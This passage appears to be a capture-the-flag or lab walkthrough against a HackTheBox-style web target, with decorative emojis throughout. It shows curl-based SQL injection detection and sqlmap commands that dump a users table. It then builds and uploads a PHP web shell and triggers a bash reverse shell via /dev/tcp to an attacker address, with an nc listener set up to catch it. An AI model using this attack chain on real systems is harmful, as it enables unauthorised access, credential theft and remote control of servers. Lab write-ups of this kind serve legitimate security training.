 **🔍 Detection:**
```bash
# Testing for SQLi
curl "http://10.10.10.XXX/search.php?id=1'" 
# Output: MySQL syntax error - BINGO! 💥
```

**💣 Exploitation:**
```bash
# 🚀 Automated exploitation
sqlmap -u "http://10.10.10.XXX/search.php?id=1" --batch --dbs --threads 10

# 💀 Database enumeration
sqlmap -u "http://10.10.10.XXX/search.php?id=1" -D webapp --tables --batch

# 👤 User credentials dump
sqlmap -u "http://10.10.10.XXX/search.php?id=1" -D webapp -T users --dump --batch
```

<details><summary>🏆 Credentials Harvested</summary></details>

---

## 🚀 Phase 3: Initial Foothold

### 💣 Web Shell Upload

**Strategy:** Exploit file upload vulnerability in admin panel

```bash
# 🎯 Create PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# 🚀 Upload via admin panel
curl -X POST -F "file=@shell.php" http://10.10.10.XXX/admin/upload.php \
     -H "Cookie: PHPSESSID=abc123..."

# 💥 Execute commands
curl "http://10.10.10.XXX/uploads/shell.php?cmd=id"
```

### 🔥 Reverse Shell Time!

```bash
# 🎧 Setup listener
rlwrap nc -nvlp 4444

# 💀 Trigger reverse shell
curl "http://10.10.10.XXX/uploads/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.XXX/4444%200%3E%261%27"
```

> **🎉 SUCCESS!** Shell caught as `www-data`

---
